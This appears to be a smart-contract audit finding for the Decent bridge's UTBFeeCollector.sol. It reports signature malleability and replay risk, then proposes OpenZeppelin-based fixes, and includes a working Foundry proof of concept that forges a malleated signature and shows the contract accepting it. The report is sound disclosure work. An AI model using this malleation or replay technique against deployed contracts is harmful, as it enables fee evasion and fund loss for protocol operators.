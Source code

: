 ## Possible replay attacks & signature malleability possible in the ```UTBFeeCollector.sol``` contract
Replay:
Since users can opt to pay their fees in either native gas tokens or ERC20's, future situations where previous amounts from ```FeeStructure.feeAmount``` could be worth re-using instead of the current ones.
This becomes especially critical if the used ERC20's in question die out or lose significant value. This could potentially lead to users paying next to nothing for using the protocols bridge.

Signature malleability:
Invalid signatures that derive from original ones can be used & will generate the expected signer address in ```UTBFeeCollector```.

Source of both vulnerabilities: 
https://github.com/code-423n4/2024-01-decent/blob/main/src/UTBFeeCollector.sol#L26
Affecting: ```UTB.sol``` functionality.

## Signature Malleability is possible:
Modified signatures are accepted by the protocol, which is not optimal.
This issue arises due to not following the ECDSA standard proposed by OpenZeppelin. The following lines, dont check for correct ```s``` values:
```
        require(signature.length == 65, "Invalid signature length");

        assembly {
            r := mload(add(signature, 32))
            s := mload(add(signature, 64))
            v := byte(0, mload(add(signature, 96)))
        }
```
For ```Lower s normalization values``` need to be compared with 
```0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141``` to ensure the number is in the correct range, following the Ethereum Yellow pages.
https://github.com/OpenZeppelin/openzeppelin-contracts/blob/a51f1e1354dbae62cec024d2590de5cab249a27c/contracts/utils/cryptography/ECDSA.sol#L129

## Replay Attack:
The replay attack is enabled due to a lack of ```nonce``` & ```chainId``` inside the dataHash which is then signed by the trusted address. This allows users to re-use the same signature multiple times for the same dataHash(instructions).
```UTBFeeCollector.sol``` Ln: 49
```
        bytes32 constructedHash = keccak256(
            abi.encodePacked(BANNER, keccak256(packedInfo))
        );
```
Here we can see that the dataHash consists of: ```BANNER(string) + packedInfo(bytes)```. ```packedInfo``` consisting of: ```abi.encode(instructions, fees)``` these being structs of ```SwapAndExecuteInstructions```, ```FeeStructure``` :
```
struct SwapInstructions {
    uint8 swapperId;       // Which swapper contract to use
    bytes swapPayload;     // Instructions for swap "path"
}

struct FeeStructure {
    uint bridgeFee;
    address feeToken;
    uint feeAmount;
}

struct SwapAndExecuteInstructions {
    SwapInstructions swapInstructions;
    address target;                    
    address paymentOperator;
    address payable refund;
    bytes payload;
}
```
Here you can observe that the dataHash does not contain a ```chainId``` nor any accounting system "```nonce```" that would prevent replay attacks.

Once again the OpenZeppelin standard suggests using both of these to prevent replay attacks.

## Foundry POC signature malleablity:
This POC shows that even modified signatures are accepted by the UTBFeeCollector contract:
```
// SPDX-License-Identifier: Built by Mango
pragma solidity ^0.8.19;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {UTBFeeCollector} from "../../src/UTBFeeCollector.sol";
import "../../src/CommonTypes.sol";

contract POC is Test {

    UTBFeeCollector utbFeeCollector;
    Vm.Wallet public signer;
    address mockUtb = address(0x789);
    string constant BANNER = "\x19Ethereum Signed Message:\n32";

    function setUp() public {
        signer = vm.createWallet("signer");
        vm.startPrank(signer.addr);
        utbFeeCollector = new UTBFeeCollector();
        utbFeeCollector.setSigner(signer.addr);
        utbFeeCollector.setUtb(mockUtb);
        assertTrue(signer.addr != address(0x0));
        // Signer variable is in slot0:
        bytes32 _signer = vm.load(address(utbFeeCollector), 0);
        assertEq(signer.addr, address(uint160(uint256(_signer))));
        vm.stopPrank();
    }

    function testPOC() public {
        // Building dataHash:
        bytes memory packedInfo = abi.encode("MockInfo");
        bytes32 dataHash = keccak256(abi.encodePacked(
            BANNER,
            keccak256(packedInfo)
        ));

        // Front end gives us the legitimate signature:
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(signer, dataHash);
        bytes memory validSignature = abi.encodePacked(r,s,v);

        // Ensuring signature throws signer.addr as its public key:
        vm.startPrank(mockUtb);
        utbFeeCollector.collectFees{value: 0}(FeeStructure({
            bridgeFee: 123,
            feeToken: address(0x0),
            feeAmount: 123
        }),
        packedInfo,
        validSignature
        );

        // Modifying the signature:
        bytes memory modifiedSig = manipulateSignature(validSignature);

        // Calling collectFee() with invalid signature:
        utbFeeCollector.collectFees{value: 0}(FeeStructure({
            bridgeFee: 123,
            feeToken: address(0x0),
            feeAmount: 123
        }),
        packedInfo,
        modifiedSig
        );
        // Accepts invalid signature with modified s value.
    }

    function manipulateSignature(bytes memory signature) public pure returns(bytes memory) {
        (uint8 v, bytes32 r, bytes32 s) = splitSignature(signature);

        uint8 manipulatedV = v % 2 == 0 ? v - 1 : v + 1;
        uint256 manipulatedS = modNegS(uint256(s));
        bytes memory manipulatedSignature = abi.encodePacked(r, bytes32(manipulatedS), manipulatedV);

        return manipulatedSignature;
    }

    function splitSignature(bytes memory sig) public pure returns (uint8 v, bytes32 r, bytes32 s) {
        require(sig.length == 65, "Invalid signature length");
        assembly {
            r := mload(add(sig, 32))
            s := mload(add(sig, 64))
            v := byte(0, mload(add(sig, 96)))
        }
        if (v < 27) {
            v += 27;
        }
        require(v == 27 || v == 28, "Invalid signature v value");
    }

    function modNegS(uint256 s) public pure returns (uint256) {

        uint256 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
        return n - s;
    }
}
```

## Abstract POC Replay attack:
Lets assume the protocol accepts ```PEPE``` as an acceptable ERC20 to pay for the bridging system. Since the worth of said ERC20 is currently healthy, there is are no issues for the owners of Decent to accept the payment in this form.

Now lets say ```PEPE``` crashes due to rugpulls or some external reasons, leaving liquidity pools of ```PEPE/WETH``` mostly empty in ```WETH```.
This means the user who once got a valid signature for bridging specific amounts to a specific chain, specified in the dataHash which got signed, can re-use the old signature. This time paying the fees in ```PEPE``` which is worthless.
Note that price crashes don't need to make this attack significant, even just price swings can be exploited into having to pay less in fees. 

The same scenario can be played with native ETH or any gas token at that.

## Proposed solutions:
To prevent invalid signatures from being used in the protocol, i recommend using the ECDSA.sol contract from OpenZeppelin. This contracts error handling ensures that only signatures generated by the signer itself will be accepted.

To prevent potential replay attacks in the future, the OpenZeppelin standard recommends including values like ```block.chainid``` and ```nonce``` into the signed dataHash. This ensures that said signature, will only be valid for that said nonce instance.
Personally: For this specific architecture, a nonce system might not be ideal, since natural front running could occur with multiple users using the dapp at the same time. I would suggest including ```blockNumber``` into the dataHash as well as perhaps modifying the ```BANNER``` string in ```UTBFeeCollector.sol``` to match each specific chain. So perhaps ```BANNER = "\x19Ethereum Signed Message:\n32"``` for Eth mainnet and ```BANNER = "\x19Fantom Signed Message:\n32"``` for Ftm, and so on. Including values like these in the dataHash will ensure that the provided signature by the front end will only be valid for the current block. Block.timestamp can also be used, but account for validators being able to manipulate this value 13 seconds ahead from the previous block header value.